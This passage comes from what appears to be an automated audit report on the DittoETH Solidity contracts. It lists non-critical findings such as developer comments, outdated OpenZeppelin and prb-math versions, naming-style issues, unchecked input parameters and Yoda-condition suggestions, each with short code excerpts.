[157-157](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L157-L157), [261-261](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L261-L261), [262-262](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L262-L262), [277-278](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L277-L278), [282-282](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L282-L282), [286-287](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L286-L287), [288-288](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L288-L288), [294-295](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L294-L295), [355-356](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L355-L356), [372-372](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L372-L372), [375-375](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L375-L375), [380-381](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L380-L381), [391-391](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L391-L391), [393-393](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L393-L393)):

```solidity
36:         // @dev Matches check in onlyValidShortRecord but with a more restrictive ercDebt condition

37:         // @dev Proposer can't redeem on self

71: 
72:         // @dev redeemerAssetUser.SSTORE2Pointer gets reset to address(0) after actual redemption

82:             // @dev Setting this above _onlyValidShortRecord to allow skipping

91: 
92:             // @dev Skip if proposal is not sorted correctly or if above redemption threshold

94: 
95:             // @dev totalAmountProposed tracks the actual amount that can be redeemed. totalAmountProposed <= redemptionAmount

100:                 // @dev Exit when proposal would leave less than minShortErc, proxy for nearing end of slate

107: 
108:             // @dev Cancel attached shortOrder if below minShortErc, regardless of ercDebt in SR

109:             // @dev All verified SR have ercDebt >= minShortErc so CR does not change in cancelShort()

126: 
127:             // @dev directly write the properties of MTypes.ProposalData into bytes

144: 
145:         // @dev SSTORE2 the entire proposalData after validating proposalInput

156:         // @dev Calculate the dispute period

157:         // @dev timeToDispute is immediate for shorts with CR <= 1.1x

261:             // @dev All proposals from the incorrectIndex onward will be removed

262:             // @dev Thus the proposer can only redeem a portion of their original slate

277: 
278:             // @dev Update the redeemer's SSTORE2Pointer

282:                 // @dev this implies everything in the redeemer's proposal was incorrect

286: 
287:             // @dev Penalty is based on the proposal with highest CR (decodedProposalData is sorted)

288:             // @dev PenaltyPct is bound between CallerFeePct and 33% to prevent exploiting primaryLiquidation fees

294: 
295:             // @dev Give redeemer back ercEscrowed that is no longer used to redeem (penalty applied)

355: 
356:         // @dev Only need to read up to the position of the SR to be claimed

372:             // @dev Refund shorter the remaining collateral only if fully redeemed and not claimed already

375:             // @dev Shorter shouldn't lose any unclaimed yield because dispute time > YIELD_DELAY_SECONDS

380: 
381:     // @dev inspired by https://docs.liquity.org/faq/lusd-redemptions#how-is-the-redemption-fee-calculated

391:         // @dev Calculate Asset.ercDebt prior to proposal

393:         // @dev Derived via this formula: baseRateNew = baseRateOld + redeemedLUSD / (2 * totalLUSD)
```

ShortOrdersFacet.sol ([46-47](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L46-L47), [54-55](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L54-L55), [74-74](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L74-L74), [83-84](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L83-L84)):

```solidity
46: 
47:         // @dev create "empty" SR. Fail early.

54: 
55:         // @dev minShortErc needs to be modified (bigger) when cr < 1

74:         // @dev if match and match price is gt .5% to saved oracle in either direction, update startingShortId

83: 
84:         // @dev reading spot oracle price
```

LibBridgeRouter.sol ([74-74](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L74-L74), [104-104](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L104-L104), [112-112](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L112-L112), [142-143](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L142-L143)):

```solidity
74:                     // @dev Prevents abusing bridge for arbitrage

104:                     // @dev Prevents abusing bridge for arbitrage

112:     // @dev Only applicable to VAULT.ONE which has mixed LST

142: 
143:     // @dev Only relevant to NFT SR that is being transferred, used to deter workarounds to the bridge credit system
```

LibOracle.sol ([29-29](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L29-L29), [81-82](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L81-L82), [154-155](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L154-L155), [160-161](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L160-L161), [166-167](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L166-L167)):

```solidity
29:                 // @dev multiply base oracle by 10**10 to give it 18 decimals of precision

81: 
82:         // @dev if there is issue with chainlink, get twap price. Verify twap and compare with chainlink

154: 
155:     // @dev Intentionally using creationTime for oracleTime.

160: 
161:     // @dev Intentionally using ercAmount for oraclePrice. Storing as price may lead to bugs in the match algos.

166: 
167:     // @dev Allows caller to save gas since reading spot price costs ~16K
```

LibOrders.sol ([28-29](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L28-L29), [42-43](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L42-L43), [137-138](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L137-L138), [171-172](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L171-L172), [188-188](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L188-L188), [237-237](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L237-L237), [267-267](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L267-L267), [294-294](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L294-L294), [331-332](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L331-L332), [418-419](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L418-L419), [507-507](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L507-L507), [508-508](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L508-L508), [511-511](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L511-L511), [518-518](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L518-L518), [640-641](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L640-L641), [723-724](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L723-L724), [760-760](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L760-L760), [769-769](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L769-L769), [781-782](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L781-L782), [790-790](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L790-L790), [801-802](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L801-L802), [846-846](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L846-L846), [899-899](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L899-L899), [900-900](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L900-L900), [905-905](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L905-L905), [906-906](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L906-L906), [927-928](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L927-L928), [931-931](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L931-L931), [961-962](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L961-L962), [964-964](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L964-L964), [966-967](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L966-L967), [970-970](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L970-L970), [974-974](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L974-L974), [980-981](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L980-L981)):

```solidity
28: 
29:     // @dev in seconds

42: 
43:         // @dev use the diff to get more time (2159), to prevent overflow at year 2106

137: 
138:         // @dev: Only need to set this when placing incomingShort onto market

171: 
172:     // @dev partial addOrder

188:         // @dev (ID) is exiting, [ID] is inserted

237:         // @dev: TAIL can't be prevId because it will always be last item in list

267:         // @dev: TAIL can't be prevId because it will always be last item in list

294:         // @dev (ID) is exiting, [ID] is inserted

331: 
332:         // @dev mark as cancelled instead of deleting the order itself

418: 
419:     // @dev not used to change state, just which methods to call

507:                 // @dev Handles only matching one thing

508:                 // @dev If does not get fully matched, b.matchedShortId == 0 and therefore not hit this block

511:                 // @dev Handles moving forward only

518:                 // @dev Handle going backward and forward

640: 
641:         // @dev match price is based on the order that was already on orderbook

723: 
724:         // @dev this happens at the end so fillErc isn't affected in previous calculations

760:                 // @dev force hint to be within 0.5% of oraclePrice

769:                     // @dev prevShortPrice >= oraclePrice

781: 
782:     // @dev Update on match if order matches and price diff between order price and oracle > chainlink threshold (i.e. eth .5%)

790:         // @dev handle .5% deviations in either directions

801: 
802:     // @dev Possible for this function to never get called if updateOracleAndStartingShortViaThreshold() gets called often enough

846:             // @dev If hint was prev matched, assume that hint was close to HEAD and therefore is reasonable to use HEAD

899:             // @dev creating shortOrder automatically creates a closed shortRecord which also sets a shortRecordId

900:             // @dev cancelling an unmatched order needs to also handle/recycle the shortRecordId

905:                 // @dev prevents leaving behind a partially filled SR is under minShortErc

906:                 // @dev if the corresponding short is cancelled, then the partially filled SR's debt will == minShortErc

927: 
928:                     // @dev update the eth refund amount

931:                 // @dev virtually mint the increased debt

961: 
962:         // @dev tithe is increased only if discount is greater than 1%

964:             // @dev bound the new tithe amount between 25% and 100%

966: 
967:             // @dev Vault.dethTitheMod is added onto Vault.dethTithePercent to get tithe amount

970:             // @dev dethTitheMod is only set when setTithe is called.

974:                 // @dev change back to original tithe percent

980: 
981:         // @dev exists because of ShortOrderFacet contract size
```

LibSRUtil.sol ([89-89](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L89-L89), [132-133](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L132-L133)):

```solidity
89:                     // @dev The resulting SR will not have PartialFill status after cancel

132: 
133:         // @dev shortOrderId is already validated in mintNFT
```

UniswapOracleLibrary.sol ([57-58](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L57-L58), [68-69](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L68-L69)):

```solidity
57: 
58:         // @dev Returns the cumulative tick and liquidity as of each timestamp secondsAgo from the current block timestamp

68: 
69:         // @dev Gets price using this formula: p(i) = 1.0001**i, where i is the tick
```

</details>

## [27] `@openzeppelin/contracts` should be upgraded to a newer version

<details>

These contracts import contracts from `@openzeppelin/contracts`, but they are not using [the latest version](https://github.com/OpenZeppelin/openzeppelin-contracts/releases). Using the latest version ensures contract security with fixes for known vulnerabilities, access to the latest feature updates, and enhanced community support and engagement.

The imported version is `^4.9.0`.

LibOracle.sol ([7](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L7)):

```solidity
7: import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
```

</details>

## [28] Lib `@prb/math` should be upgraded to a newer version

<details>

These contracts import contracts from lib `@prb/math`, but they are not using [the latest version](https://github.com/PaulRBerg/prb-math/releases).

The imported version is `^4.0.1`.

- Global finding

</details>

## [29] Functions should be named in `mixedCase` style

<details>

As the [Solidity Style Guide](https://docs.soliditylang.org/en/v0.8.21/style-guide.html#function-names) suggests: functions should be named in `mixedCase` style.

RedemptionFacet.sol ([31](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L31)):

```solidity
31:     function validRedemptionSR(STypes.ShortRecord storage shortRecord, address proposer, address shorter, uint256 minShortErc)
```

LibOrders.sol ([35](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L35)):

```solidity
35:     function convertCR(uint16 cr) internal pure returns (uint256) {
```

UniswapOracleLibrary.sol ([47](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L47)):

```solidity
47:     function estimateTWAP(uint128 amountIn, uint32 secondsAgo, address pool, address baseToken, address quoteToken)
```

</details>

## [30] Variable names for `immutable`s should use `UPPER_CASE_WITH_UNDERSCORES`

<details>

For `immutable` variable names, each word should use all capital letters, with underscores separating each word (`UPPER_CASE_WITH_UNDERSCORES`)

BridgeRouterFacet.sol ([26-26](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L26-L26), [27-27](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L27-L27)):

```solidity
26:     address private immutable rethBridge;

27:     address private immutable stethBridge;
```

ExitShortFacet.sol ([26-26](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L26-L26)):

```solidity
26:     address private immutable dusd;
```

PrimaryLiquidationFacet.sol ([28-28](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L28-L28)):

```solidity
28:     address private immutable dusd;
```

</details>

## [31] Consider adding validation of user inputs

<details>

There are no validations done on the arguments below. Consider that the Solidity [documentation](https://docs.soliditylang.org/en/latest/control-structures.html#panic-via-assert-and-error-via-require) states that `Properly functioning code should never create a Panic, not even on invalid external input. If this happens, then there is a bug in your contract which you should fix`. This means that there should be explicit checks for expected ranges of inputs. Underflows/overflows result in panics should not be used as range checks, and allowing funds to be sent to  `0x0`, which is the default value of address variables and has many gotchas, should be avoided.

BidOrdersFacet.sol ([65-65](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L65-L65)):

```solidity
/// @audit `sender not checked`
/// @audit `asset not checked`
65:     function createForcedBid(address sender, address asset, uint80 price, uint88 ercAmount, uint16[] calldata shortHintArray)
```

BridgeRouterFacet.sol ([63-63](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L63-L63), [82-82](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L82-L82), [101-101](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L101-L101), [133-133](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L133-L133)):

```solidity
/// @audit `bridge not checked`
63:     function deposit(address bridge, uint88 amount) external nonReentrant {

/// @audit `bridge not checked`
82:     function depositEth(address bridge) external payable nonReentrant {

/// @audit `bridge not checked`
101:     function withdraw(address bridge, uint88 dethAmount) external nonReentrant {

/// @audit `bridge not checked`
133:     function withdrawTapp(address bridge, uint88 dethAmount) external onlyDAO {
```

RedemptionFacet.sol ([347-347](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L347-L347)):

```solidity
/// @audit `redeemer not checked`
347:     function claimRemainingCollateral(address asset, address redeemer, uint8 claimIndex, uint8 id)
```

</details>

## [32] Constants should be put on the left side of comparisons

<details>

Putting constants on the left side of comparison statements is a best practice known as [Yoda conditions](https://en.wikipedia.org/wiki/Yoda_conditions).
Although solidity's static typing system prevents accidental assignments within conditionals, adopting this practice can improve code readability and consistency, especially when working across multiple languages.

There are 34 instances:

BidOrdersFacet.sol ([281](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L281)):

```solidity
/// @audit put `0` on the left
281:         if (matchTotal.fillEth == 0) {
```

BridgeRouterFacet.sol ([102](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L102), [134](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L134), [164](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L164)):

```solidity
/// @audit put `0` on the left
102:         if (dethAmount == 0) revert Errors.ParameterIsZero();

/// @audit put `0` on the left
134:         if (dethAmount == 0) revert Errors.ParameterIsZero();

/// @audit put `0` on the left
164:             if (vault == 0) revert Errors.InvalidBridge();
```

ExitShortFacet.sol ([53](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L53), [99](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L99), [174](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L174), [188](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L188)):

```solidity
/// @audit put `0` on the left
53:         if (buybackAmount > ercDebt || buybackAmount == 0) revert Errors.InvalidBuyback();

/// @audit put `0` on the left
99:         if (buybackAmount == 0 || buybackAmount > ercDebt) revert Errors.InvalidBuyback();

/// @audit put `0` on the left
174:         if (e.buybackAmount == 0 || e.buybackAmount > e.ercDebt) revert Errors.InvalidBuyback();

/// @audit put `0` on the left
188:         if (e.ethFilled == 0) revert Errors.ExitShortPriceTooLow();
```

RedemptionFacet.sol ([73](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L73), [235](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L235), [314](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L314), [353](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L353), [371](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L371)):

```solidity
/// @audit put `address(0)` on the left
73:         if (redeemerAssetUser.SSTORE2Pointer != address(0)) revert Errors.ExistingProposedRedemptions();

/// @audit put `address(0)` on the left
235:         if (redeemerAssetUser.SSTORE2Pointer == address(0)) revert Errors.InvalidRedemption();

/// @audit put `address(0)` on the left
314:         if (redeemerAssetUser.SSTORE2Pointer == address(0)) revert Errors.InvalidRedemption();

/// @audit put `address(0)` on the left
353:         if (redeemerAssetUser.SSTORE2Pointer == address(0)) revert Errors.InvalidRedemption();

/// @audit put `0` on the left
371:         if (shortRecord.ercDebt == 0 && shortRecord.status == SR.FullyFilled) {
```

LibOracle.sol ([60](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L60), [60](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L60), [76](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L76), [76](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L76), [76](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L76), [89](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L89), [125](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L125), [125](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L125), [125](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L125), [126](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L126), [126](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L126), [126](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L126), [134](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L134)):

```solidity
/// @audit put `0` on the left
60:                 if (roundID == 0 || price == 0 || timeStamp > block.timestamp) revert Errors.InvalidPrice();

/// @audit put `0` on the left
60:                 if (roundID == 0 || price == 0 || timeStamp > block.timestamp) revert Errors.InvalidPrice();

/// @audit put `0` on the left
76:         bool invalidFetchData = roundId == 0 || timeStamp == 0 || timeStamp > block.timestamp || chainlinkPrice <= 0

/// @audit put `0` on the left
76:         bool invalidFetchData = roundId == 0 || timeStamp == 0 || timeStamp > block.timestamp || chainlinkPrice <= 0

/// @audit put `0` on the left
76:         bool invalidFetchData = roundId == 0 || timeStamp == 0 || timeStamp > block.timestamp || chainlinkPrice <= 0

/// @audit put `0` on the left
89:                 if (twapPrice == 0) {

/// @audit put `0` on the left
125:         bool invalidFetchData = roundId == 0 || timeStamp == 0 || timeStamp > block.timestamp || chainlinkPrice <= 0

/// @audit put `0` on the left
125:         bool invalidFetchData = roundId == 0 || timeStamp == 0 || timeStamp > block.timestamp || chainlinkPrice <= 0

/// @audit put `0` on the left
125:         bool invalidFetchData = roundId == 0 || timeStamp == 0 || timeStamp > block.timestamp || chainlinkPrice <= 0

/// @audit put `0` on the left
126:             || baseRoundId == 0 || baseTimeStamp == 0 || baseTimeStamp > block.timestamp || baseChainlinkPrice <= 0;

/// @audit put `0` on the left
126:             || baseRoundId == 0 || baseTimeStamp == 0 || baseTimeStamp > block.timestamp || baseChainlinkPrice <= 0;

/// @audit put `0` on the left
126:             || baseRoundId == 0 || baseTimeStamp == 0 || baseTimeStamp > block.timestamp || baseChainlinkPrice <= 0;

/// @audit put `0` on the left
134:         if (twapPrice == 0) revert Errors.InvalidTwapPrice();
```

